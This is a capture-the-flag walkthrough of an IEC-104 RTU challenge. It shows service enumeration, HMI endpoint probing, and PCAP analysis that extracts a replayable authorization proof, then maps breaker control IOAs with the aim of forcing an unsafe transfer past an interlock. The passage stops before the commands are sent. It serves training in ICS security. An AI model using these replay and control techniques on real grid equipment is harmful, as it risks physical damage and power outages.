







        <font size="10">Crownspire Transfer</font>

14<sup>th</sup> June 2026

Prepared By: Lean

Challenge Author(s): Lean

Difficulty: <font color=orange>Medium</font>

Classification: Official

# [Synopsis](#synopsis)

Enumerate the HMI and field service, inspect the public process state, analyze the maintenance PCAP, recover a replayable handoff primitive, operate the mapped controls, and recover the checkpoint token from the resulting alarm.

## Description

Stormbound crews found a Frostline feeder RTU still guarding the Crownspire east transfer bus. The live HMI shows a loaded transfer pump and a transfer breaker held open by an interlock. Recover enough control to force the unsafe transfer and collect the checkpoint token from the resulting feeder-trip alarm.

## Skills Required

- Basic TCP service enumeration
- Basic HTTP endpoint inspection
- Basic PCAP triage
- Ability to read simple IEC 60870-5-104 APDU fields
- Basic Python scripting for raw TCP protocols
- Basic use of a protocol library for IEC-104 commands

## Skills Learned

- Identifying IEC-104 from `STARTDT` U-frames
- Mapping type identification, cause of transmission, common address, and information object address fields
- Extracting replayable authorization material from a live capture
- Understanding why replayable handoff material should be bound to a fresh challenge
- Using mapped IEC-104 control commands
- Verifying process impact through HMI alarms instead of reading a static flag

## Application Overview

From a black-box perspective the target exposes a public HMI and one field protocol service. The HMI shows a Frostline RLY-104 feeder transfer RTU with a live process mimic, measurements, controller state, and an alarm table. The alarm table is the only place the token appears after the unsafe transfer condition is created.

Initial HMI state



The important initial process facts are visible without login.

- Main breaker `52-M` is closed.
- Transfer breaker `52-T` is open.
- Transfer pump `P-43` is running and loading the feeder.
- Phase angle is outside the safe close window.
- The transfer close interlock is active.
- The alarm table reports that `52-T` is inhibited by the phase-angle interlock.

No register map is exposed by the HMI. The public web surface gives process evidence and alarms. The control path is the IEC-104 service.

## Step-by-Step Attack Path

---

### Step 1 - Enumerate The Exposed Services

Start with a TCP scan. The challenge exposes only the HMI and the field protocol service.

Manual enumeration

```bash
nmap -sT -Pn -p 2404,18081 127.0.0.1
```

Useful output

```text
Starting Nmap 7.98 ( https://nmap.org ) at 2026-06-07 11:58 +0300
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).

PORT      STATE SERVICE
2404/tcp  open  iec-104
18081/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.02 seconds
```

The important result is two exposed services.

- `18081/tcp` is the HMI.
- `2404/tcp` is IEC 60870-5-104.

Confirm that the HMI is HTTP.

```bash
printf 'GET / HTTP/1.1\r\nHost: 127.0.0.1:18081\r\nConnection: close\r\n\r\n' \
  | nc -w 3 127.0.0.1 18081 \
  | sed -n '1,18p'
```

Useful output

```text
HTTP/1.0 200 OK
Server: FrostlineHMI/2.8 Python/3.12.3
Date: Sun, 07 Jun 2026 08:58:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 17043
Cache-Control: no-store

<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <title>Frostline RLY-104 Feeder Guard RTU</title>
```

Confirm that port `2404` behaves like IEC-104 by sending `STARTDT act`.

```bash
printf '\x68\x04\x07\x00\x00\x00' | nc -w 2 127.0.0.1 2404 | xxd -g1 -l 32
```

Useful output

```text
00000000: 68 04 0b 00 00 00                                h.....
```

The response `68 04 0b 00 00 00` is `STARTDT con`, so the target is ready to exchange IEC-104 data after `STARTDT`.

The quick protocol detail needed at this point is visible from the bytes just sent and received. IEC-104 APDUs start with `0x68`, followed by a length byte and four APCI control bytes. U-frames are used for connection control, and this U-frame pair is the data-transfer start handshake.

### Step 2 - Enumerate The HMI Surface

Open the HMI in a browser and inspect the page source. The HMI itself shows the process, and the source reveals which public JSON endpoints back the live display.

```bash
curl -s http://127.0.0.1:18081/ \
  | rg -n 'fetch\("|status\.json|alarms|identity\.json'
```

Useful output

```text
393:            <tbody id="alarms"></tbody>
415:        fetch("/status.json", { cache: "no-store" }),
416:        fetch("/alarms", { cache: "no-store" }),
451:      const rows = alarmState.alarms.map(a => `<tr><td>${escapeHtml(a.id)}</td><td class="sev-${escapeHtml(a.severity)}">${escapeHtml(a.severity)}</td><td>${escapeHtml(a.message)}</td></tr>`);
452:      document.getElementById("alarms").innerHTML = rows.join("") || "<tr><td colspan='3'>clear</td></tr>";
```

A wordlist is not required to solve once the page source is inspected, but I still checked common public route stems. I used the current SecLists DirBuster small list and verified locally that it contains `status`, `identity`, and `alarms`. I did not rely on hosted filenames being visible in the UI.

Wordlist setup

```bash
curl -L \
  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  -o /tmp/DirBuster-2007_directory-list-2.3-small.txt

for word in status identity alarms; do
  rg -x "$word" /tmp/DirBuster-2007_directory-list-2.3-small.txt >/dev/null
done
```

Compact route check used after the source hints

```bash
python3 - <<'PY'
from urllib.error import HTTPError
from urllib.request import urlopen

base = "http://127.0.0.1:18081"
words = ["status", "identity", "alarms", "backup", "static", "api", "robots"]

for word in words:
    for suffix in ("", ".json"):
        path = "/" + word + suffix
        try:
            with urlopen(base + path, timeout=3) as response:
                body = response.read()
                print(f"{path:<18} {response.status:<3} {len(body)}")
        except HTTPError as error:
            body = error.read()
            if error.code != 404:
                print(f"{path:<18} {error.code:<3} {len(body)}")
PY
```

Useful output from a clean run

```text
/status.json       200 664
/identity.json     200 212
/alarms            200 121
```

The HMI does not host the release PCAP, JavaScript bundle, or API directory. The useful web endpoints are public state endpoints.

### Step 3 - Read The HMI State As Process Evidence

The HMI status endpoint identifies the controller and gives live process values. These values change as the scan loop runs, so exact numeric measurements vary between requests. The boolean states and relationships are what matter.

Raw request

```http
GET /status.json HTTP/1.1
Host: 127.0.0.1:18081
Connection: close

```

Real response from a clean run

```http
HTTP/1.0 200 OK
Server: FrostlineHMI/2.8 Python/3.12.3
Date: Sun, 07 Jun 2026 09:07:24 GMT
Content-Type: application/json
Content-Length: 664
Cache-Control: no-store

{"plc":{"vendor":"Frostline Controls","product":"RLY-104","model":"Frostline RLY-104 Feeder Guard RTU","revision":"2.8.4","application":"Crownspire East Feeder Transfer","common_address":17},"scan":35,"authorized":false,"authorized_ttl":0.0,"last_handoff":"none","last_command":"boot","process":{"main_breaker_closed":true,"tie_breaker_closed":false,"transfer_pump_running":true,"interlock_bypass":false,"feeder_trip":false,"bus_voltage_kv":11.19,"feeder_load_mw":3.68,"sync_angle_deg":12.5,"transformer_temp_c":68.7},"events":["PLC boot: Frostline RLY-104 feeder transfer image 2.8.4 loaded.","TRANSFER INHIBIT: breaker 52-T held open by phase-angle interlock."]}
```

The same PLC identity can be queried directly.

Raw request

```http
GET /identity.json HTTP/1.1
Host: 127.0.0.1:18081
Connection: close

```

Real response

```http
HTTP/1.0 200 OK
Server: FrostlineHMI/2.8 Python/3.12.3
Date: Sun, 07 Jun 2026 09:07:25 GMT
Content-Type: application/json
Content-Length: 212
Cache-Control: no-store

{"vendor":"Frostline Controls","product":"RLY-104","model":"Frostline RLY-104 Feeder Guard RTU","revision":"2.8.4","application":"Crownspire East Feeder Transfer","protocol":"IEC 60870-5-104","common_address":17}
```

The alarm endpoint starts with only the interlock alarm.

Raw request

```http
GET /alarms HTTP/1.1
Host: 127.0.0.1:18081
Connection: close

```

Real response from a clean run

```http
HTTP/1.0 200 OK
Server: FrostlineHMI/2.8 Python/3.12.3
Date: Sun, 07 Jun 2026 09:07:24 GMT
Content-Type: application/json
Content-Length: 121
Cache-Control: no-store

{"alarms":[{"id":"RLY104-INHIBIT","severity":"WARN","message":"52-T transfer close inhibited by phase-angle interlock"}]}
```

The observations from this step are enough to define the process goal.

- The bus is energized.
- The feeder is loaded.
- The pump is running.
- `52-T` is open.
- The interlock is blocking `52-T`.
- The token is not present in the public state.

The intended process disruption is therefore an unsafe transfer close. At this point I still do not know the control addresses or the authorization mechanism, so the next step is to analyze the provided field capture.

### Step 4 - Triage The Provided Maintenance Capture

The release artifact is local to the challenge package.

```bash
ls -l release/backup.pcap
```

Useful output

```text
-rw-r--r--@ 1 lean  staff  4667 Jun  6 23:10 release/backup.pcap
```

The capture is a real live capture from the service, not a synthetic byte dump.

```bash
file release/backup.pcap
tcpdump -nn -r release/backup.pcap 2>/dev/null | sed -n '1,12p'
```

Useful output

```text
release/backup.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v2, capture length 262144)
23:10:22.713712 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [S], seq 1430301043, win 64240, options [mss 1460,sackOK,TS val 3477294473 ecr 0,nop,wscale 7], length 0
23:10:22.713716 gif0  Out IP 172.17.0.5.2404 > 172.17.0.1.47504: Flags [S.], seq 1523358773, ack 1430301044, win 65160, options [mss 1460,sackOK,TS val 4023471426 ecr 3477294473,nop,wscale 7], length 0
23:10:22.713722 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [.], ack 1, win 502, options [nop,nop,TS val 3477294473 ecr 4023471426], length 0
23:10:22.713788 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [P.], seq 1:7, ack 1, win 502, options [nop,nop,TS val 3477294473 ecr 4023471426], length 6
23:10:22.713789 gif0  Out IP 172.17.0.5.2404 > 172.17.0.1.47504: Flags [.], ack 7, win 510, options [nop,nop,TS val 4023471426 ecr 3477294473], length 0
23:10:22.722908 gif0  Out IP 172.17.0.5.2404 > 172.17.0.1.47504: Flags [P.], seq 1:7, ack 7, win 510, options [nop,nop,TS val 4023471435 ecr 3477294473], length 6
23:10:22.722920 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [.], ack 7, win 502, options [nop,nop,TS val 3477294482 ecr 4023471435], length 0
23:10:22.722981 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [P.], seq 7:30, ack 7, win 502, options [nop,nop,TS val 3477294482 ecr 4023471435], length 23
23:10:22.764170 gif0  Out IP 172.17.0.5.2404 > 172.17.0.1.47504: Flags [.], ack 30, win 510, options [nop,nop,TS val 4023471476 ecr 3477294482], length 0
23:10:22.827755 gif0  Out IP 172.17.0.5.2404 > 172.17.0.1.47504: Flags [P.], seq 7:42, ack 30, win 510, options [nop,nop,TS val 4023471540 ecr 3477294482], length 35
23:10:22.868940 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [.], ack 42, win 502, options [nop,nop,TS val 3477294628 ecr 4023471540], length 0
23:10:22.923188 gif0  In  IP 172.17.0.1.47504 > 172.17.0.5.2404: Flags [F.], seq 30, ack 42, win 502, options [nop,nop,TS val 3477294682 ecr 4023471540], length 0
```

I checked the capture metadata next so I knew how much traffic had to be audited.

```bash
capinfos release/backup.pcap
```

Useful output

```text
File name:           release/backup.pcap
File type:           Wireshark/tcpdump/... - pcap
File encapsulation:  Linux cooked-mode capture v2
File timestamp precision:  microseconds (6)
Packet size limit:   file hdr: 262144 bytes
Number of packets:   48
File size:           4667 bytes
Data size:           3875 bytes
Capture duration:    0.424377 seconds
Earliest packet time: 2026-06-06 23:10:22.713712
Latest packet time:   2026-06-06 23:10:23.138089
Data byte rate:      9131 bytes/s
Data bit rate:       73 kbps
Average packet size: 80.73 bytes
Average packet rate: 113 packets/s
SHA256:              2e3ff57005e7849b50718cb4a4275f73f604cfb54e1f226d027c93a8811c7e3c
SHA1:                b5083cc4eb82ff53f56d600e5bd5f20decee8176
Strict time order:   True
Number of interfaces in file: 1
Interface #0 info:
                     Encapsulation = Linux cooked-mode capture v2 (210 - linux-sll2)
                     Capture length = 262144
                     Time precision = microseconds (6)
                     Time ticks per second = 1000000
                     Number of stat entries = 0
                     Number of packets = 48
```

The first IEC-104 exchange is a normal `STARTDT` enablement. In Wireshark, frame `4` is `STARTDT act` from the client and frame `6` is `STARTDT con` from the RTU.



I used TShark to print the same first IEC-104 frames with packet numbers and endpoints.

```bash
tshark -r release/backup.pcap -d tcp.port==2404,iec60870_104 \
  -Y 'frame.number == 4 || frame.number == 6 || frame.number == 8' \
  -T fields -E header=y \
  -e frame.number -e frame.time_relative -e ip.src -e tcp.srcport \
  -e ip.dst -e tcp.dstport -e _ws.col.Info
```

Useful output

```text
frame.number	frame.time_relative	ip.src	tcp.srcport	ip.dst	tcp.dstport	_ws.col.info
4	0.000076000	172.17.0.1	47504	172.17.0.5	2404	<- U (STARTDT act) 
6	0.009196000	172.17.0.5	2404	172.17.0.1	47504	-> U (STARTDT con) 
8	0.009269000	172.17.0.1	47504	172.17.0.5	2404	<- I (0,0) ASDU=17 <TypeId=104> Act     IOA=266500
```

Frame `8` is the first player-useful packet. The packet list shows a client to RTU I-frame after `STARTDT`, and the hex pane shows the application payload ending in the eight proof bytes.



Wireshark does not know the custom maintenance meaning for TypeId `104`, but it still decodes the IEC-104 envelope and exposes the raw ASDU data.

```bash
tshark -r release/backup.pcap -d tcp.port==2404,iec60870_104 \
  -Y 'frame.number == 8' -V | sed -n '/IEC 60870-5-104/,/Raw Data/p'
```

Useful output

```text
IEC 60870-5-104: <- I (0,0) 
    START
    ApduLen: 21
    .... .... .... .... .... .... .... ...0 = Type: I (0x0)
    .... .... .... .... 0000 0000 0000 000. = Tx: 0
    0000 0000 0000 000. .... .... .... .... = Rx: 0
IEC 60870-5-101/104 ASDU: ASDU=17 <TypeId=104> Act     IOA=266500 '<Unknown TypeId>'
    TypeId: Unknown (104)
    0... .... = SQ: False
    .000 0001 = NumIx: 1
    ..00 0110 = CauseTx: Act (6)
    .0.. .... = Negative: False
    0... .... = Test: False
    OA: 0
    Addr: 17
    IOA: 266500
    Raw Data: bb322456bda87cee
```

The same payload is visible in the raw bytes for frame `8`.

```bash
tshark -r release/backup.pcap -d tcp.port==2404,iec60870_104 \
  -Y 'frame.number == 8' -x
```

Useful output

```text
0000  08 00 00 00 00 00 00 02 00 01 00 06 62 89 5a 9e   ............b.Z.
0010  39 f4 00 00 45 00 00 4b 09 2a 40 00 40 06 d9 5a   9...E..K.*@.@..Z
0020  ac 11 00 01 ac 11 00 05 b9 90 09 64 55 40 a9 7a   ...........dU@.z
0030  5a cc 9c 3c 80 18 01 f6 58 66 00 00 01 01 08 0a   Z..<....Xf......
0040  cf 43 4d 92 ef d1 4d 4b 68 15 00 00 00 00 68 01   .CM...MKh.....h.
0050  06 00 11 00 04 11 04 bb 32 24 56 bd a8 7c ee      ........2$V..|.
```

The useful IEC-104 maintenance frame appears at raw PCAP offset `756`.

```python
#!/usr/bin/env python3
from pathlib import Path
import struct

TYPE_C_TS_NA_1 = 104
COT_ACTIVATION = 6
COMMON_ADDR = 17
IOA_MAINT_HANDOFF = 0x041104

def unpack_ioa(raw):
    return raw[0] | (raw[1] << 8) | (raw[2] << 16)

def iter_iec104_frames(data):
    offset = 0
    while True:
        start = data.find(b"\x68", offset)
        if start < 0 or start + 2 > len(data):
            return
        length = data[start + 1]
        end = start + 2 + length
        if length >= 4 and end <= len(data):
            yield start, data[start:end]
        offset = start + 1

pcap = Path("release/backup.pcap").read_bytes()

for offset, frame in iter_iec104_frames(pcap):
    control = frame[2:6]
    if control[0] & 1:
        continue
    asdu = frame[6:]
    if len(asdu) < 17 or asdu[0] != TYPE_C_TS_NA_1:
        continue
    cot = struct.unpack("<H", asdu[2:4])[0] & 0x3f
    ca = struct.unpack("<H", asdu[4:6])[0]
    ioa = unpack_ioa(asdu[6:9])
    if cot == COT_ACTIVATION and ca == COMMON_ADDR and ioa == IOA_MAINT_HANDOFF:
        print("offset", offset)
        print("frame", frame.hex(" "))
        print("proof", asdu[9:17].hex())
```

Useful output

```text
offset 756
frame 68 15 00 00 00 00 68 01 06 00 11 00 04 11 04 bb 32 24 56 bd a8 7c ee
proof bb322456bda87cee
```

Break down the ASDU after the four I-frame control bytes.

```text
68                type identification 104, C_TS_NA_1
01                one information object
06 00             cause of transmission 6, activation
11 00             common address 17
04 11 04          information object address 0x041104
bb322456bda87cee  stale maintenance handoff proof
```

The capture does not contain the token text.

```bash
python3 - <<'PY'
from pathlib import Path

pcap = Path("release/backup.pcap").read_bytes()
for needle in [b"HTB{", b"TOKEN"]:
    print(needle.decode(errors="replace"), pcap.find(needle))
PY
```

Useful output

```text
HTB{ -1
TOKEN -1
```

The proof is not a password to crack. It is replayable authorization material from a previous trusted maintenance handoff. The bug is that the RTU accepts the same proof after a fresh `STARTDT` session instead of binding the proof to a fresh challenge.

### Step 5 - Map The Command Traffic From The Capture

The same capture also contains the IEC-104 single commands used by the maintenance station. I parsed `C_SC_NA_1` frames to identify the control IOAs and the select or execute bytes.

The outbound control frames in Wireshark show four activations. Frames `30` and `33` target IOA `1101`. Frames `37` and `39` target IOA `1201`.



The RTU responses are visible immediately after the commands. The `ActCon` rows confirm acceptance and the `ActTerm` rows close the select-before-operate transaction.



TShark exposes the sequence numbers and single-command object bits from the same rows.

```bash
tshark -r release/backup.pcap -d tcp.port==2404,iec60870_104 \
  -Y 'frame.number == 30 || frame.number == 31 || frame.number == 33 || frame.number == 34 || frame.number == 35 || frame.number == 37 || frame.number == 38 || frame.number == 39 || frame.number == 40 || frame.number == 41' \
  -T fields -E header=y \
  -e frame.number -e frame.time_relative -e ip.src -e tcp.srcport \
  -e ip.dst -e tcp.dstport -e iec60870_104.tx -e iec60870_104.rx \
  -e iec60870_asdu.causetx -e iec60870_asdu.addr -e iec60870_asdu.ioa \
  -e iec60870_asdu.sco -e iec60870_asdu.sco.on -e iec60870_asdu.sco.se \
  -e _ws.col.Info
```

Useful output

```text
frame.number	frame.time_relative	ip.src	tcp.srcport	ip.dst	tcp.dstport	iec60870_104.tx	iec60870_104.rx	iec60870_asdu.causetx	iec60870_asdu.addr	iec60870_asdu.ioa	iec60870_asdu.sco	iec60870_asdu.sco.on	iec60870_asdu.sco.se	_ws.col.info
30	0.312357000	172.17.0.1	47510	172.17.0.5	2404	2	4	6	17	1101	0x81	True	True	<- I (2,4) ASDU=17 C_SC_NA_1 Act     IOA=1101
31	0.312466000	172.17.0.5	2404	172.17.0.1	47510	4	3	7	17	1101	0x81	True	True	-> I (4,3) ASDU=17 C_SC_NA_1 ActCon  IOA=1101
33	0.312787000	172.17.0.1	47510	172.17.0.5	2404	3	5	6	17	1101	0x01	True	False	<- I (3,5) ASDU=17 C_SC_NA_1 Act     IOA=1101
34	0.312965000	172.17.0.5	2404	172.17.0.1	47510	5	4	7	17	1101	0x01	True	False	-> I (5,4) ASDU=17 C_SC_NA_1 ActCon  IOA=1101
35	0.314281000	172.17.0.5	2404	172.17.0.1	47510	6	4	10	17	1101	0x81	True	True	-> I (6,4) ASDU=17 C_SC_NA_1 ActTerm IOA=1101
37	0.314543000	172.17.0.1	47510	172.17.0.5	2404	4	7	6	17	1201	0x81	True	True	<- I (4,7) ASDU=17 C_SC_NA_1 Act     IOA=1201
38	0.314583000	172.17.0.5	2404	172.17.0.1	47510	7	5	7	17	1201	0x81	True	True	-> I (7,5) ASDU=17 C_SC_NA_1 ActCon  IOA=1201
39	0.314736000	172.17.0.1	47510	172.17.0.5	2404	5	8	6	17	1201	0x01	True	False	<- I (5,8) ASDU=17 C_SC_NA_1 Act     IOA=1201
40	0.314877000	172.17.0.5	2404	172.17.0.1	47510	8	6	7	17	1201	0x01	True	False	-> I (8,6) ASDU=17 C_SC_NA_1 ActCon  IOA=1201
41	0.316197000	172.17.0.5	2404	172.17.0.1	47510	9	6	10	17	1201	0x81	True	True	-> I (9,6) ASDU=17 C_SC_NA_1 ActTerm IOA=1201
```

The important `SCO` bit is the top bit. `0x81` means ON with select set. `0x01` means ON with execute set. The client therefore sends select ON and execute ON for each IOA.

